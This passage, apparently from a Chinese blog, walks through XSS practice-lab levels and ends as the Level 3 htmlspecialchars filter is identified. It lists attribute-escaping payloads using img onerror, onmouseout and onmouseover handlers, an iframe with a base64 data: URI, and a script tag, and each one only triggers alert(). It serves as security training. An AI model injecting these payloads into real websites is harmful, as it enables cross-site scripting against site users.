 如果读取不到 我们可以设置 onerror属性 来输出内容 这里就存在 xss

```xml
"> <img src="666" onerror=alert()> <"
```

#### 

#### 

#### onmouseout   鼠标移出图片

附属于 img 下的属性

payload为

```xml
"> <img src=666 onmouseout="alert()"> <"
```

#### onmouseover  鼠标移动到图片

```xml
"> <img src=666 onmouseover="alert()"> <"
```

#### data 伪协议

这里是利用 iframe标签

```cobol
"> <iframe src=data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+> <"
 
PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+ 为 <sricpt>alert()</sricpt>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/dd2e4404cafed38f3a99ae90a2524ffb.png" alt="" style="max-height:389px; box-sizing:content-box;" />




## Level3   【htmlspecialchars】

我们查看代码 没有发现和上一题有什么不一样的

所以我们去继续使用上题的payload

```xml
"><script>alert(1)</script>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fee83cc49fe91ecb78c891fcbca63b00.png" alt="" style="max-height:239px; box-sizing:content-box;" />


发现被实体化了

并且只过滤了  <>

这里我们就需要想到是htmlspecialchars
